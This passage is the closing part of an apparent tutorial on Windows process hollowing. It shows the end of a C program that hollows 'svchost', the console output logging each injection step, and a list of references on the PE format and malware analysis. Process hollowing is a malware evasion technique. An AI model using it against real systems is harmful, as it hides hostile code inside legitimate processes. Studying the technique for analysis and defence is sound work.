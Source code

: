 			  CreateHollowedProcess
			  (
					"svchost",
					pPath
			  );
		 
			  system("pause");
		 
			  return 0;
		}
 
Once the application is run, its output confirms that the hollowing was successful.

Creating process
Opening source image
Unmapping destination section
Allocating memory
Source image base: 0x00400000
Destination image base: 0x00A60000
Relocation delta: 0x00660000
Writing headers
Writing .text section to 0x00A8B000
Writing .rdata section to 0x00AE2000
Writing .data section to 0x00AF3000
Writing .idata section to 0x00AF7000
Writing .rsrc section to 0x00AF8000
Writing .reloc section to 0x00AF9000
Rebasing image
Getting thread context
Setting thread context
Resuming thread
Process hollowing complete
Press any key to continue . . .
 
## Resources
Process Hollowing Source
http://code.google.com/p/process-hollowing/downloads/list
 
Malware Analyst's Cookbook and DVD: Tools and Techniques for Fighting Malicious Code
http://www.amazon.com/Malware-Analysts-Cookbook-DVD-Techniques/dp/0470613033
 
Microsoft Portable Executable and Common Object File Format Specification
http://download.microsoft.com/download/9/c/5/9c5b2167-8017-4bae-9fde-d599bac8184a/pecoff_v8.docx

Peering Inside the PE: A Tour of the Win32 Portable Executable File Format
http://msdn.microsoft.com/en-us/library/ms809762.aspx

PEB (Process Enviroment Block)
http://undocumented.ntinternals.net/UserMode/Undocumented%20Functions/NT%20Objects/Process/PEB.html

/MD, /MT, /LD (Use Run-Time Library)
http://msdn.microsoft.com/en-us/library/2kzt1wy3.aspx

/FIXED (Fixed Base Address)
http://msdn.microsoft.com/en-us/library/w368ysh2(v=vs.80).aspx

/DYNAMICBASE (Use address space layout randomization)
http://msdn.microsoft.com/en-us/library/bb384887.aspx 

C Bit Fields
http://msdn.microsoft.com/en-us/library/yszfawxh(v=vs.80).aspx
